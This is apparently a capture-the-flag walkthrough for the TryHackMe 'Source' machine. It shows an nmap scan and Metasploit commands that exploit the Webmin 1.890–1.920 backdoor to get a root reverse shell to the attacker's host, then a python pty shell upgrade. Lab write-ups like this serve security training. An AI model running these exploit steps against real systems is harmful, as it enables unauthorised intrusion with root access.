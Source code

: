 
## Source - TryHackMe
 
 
Welcome to this Walk-through Guide
Today, I will walk you through step by step on how to solve and pwn the Source machine on TryHackMe.

## Footprinting

So, we begin with an nmap scan and get the following result:

![1.png](/posts/res/source_1.png)

From the scan result, we can see that we have two ports open on our target machine: port 22 (SSH) and port 10000 (HTTP).

We have a web server running on a non-standard port, so let's head over to our web browser and check it out:

```
https://<IP>:10000
```

## Enumeration

Now, when we load up the address in our browser, we can see a login page for a software called ***webmin***. Essentially, I tried various default credentials to test for misconfiguration, but they didn't work.

![2.png](/posts/res/source_2.png)

My next approach was to check if a public exploit is available for the version of software running.

![3.png](/posts/res/source_3.png)

So, we can see that we have a backdoor in Webmin versions 1.890 through 1.920 which allows RCE.

## Exploitation

Now, let's load up our Metasploit console. We would be making use of the following exploit:

![4.png](/posts/res/source_4.png)

```
search webmin
use exploit/linux/http/webmin_backdoor 
```
```
show options
set RHOSTS <Target_IP>
set LHOST tun0
set SSL true
exploit
```

![5.png](/posts/res/source_5.png)

Now we have successfully gained a shell. Let's try to stabilize our current shell. First, we check if Python is available on the target machine using the following command:

```
which python
```

![7.png](/posts/res/source_7.png)

Cool! We have Python installed. Now, we run the following command to upgrade our shell:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

![8.png](/posts/res/source_8.png)

Running the ***whoami*** command says we are the root user so there is no need for Priv-esc, now let's navigate the file system to find the flag.

To get the user flag, we head over to the following directory: ***/home/dark***

![9.png](/posts/res/source_9.png)

For the root flag, you know what to do 😉. 

--- 

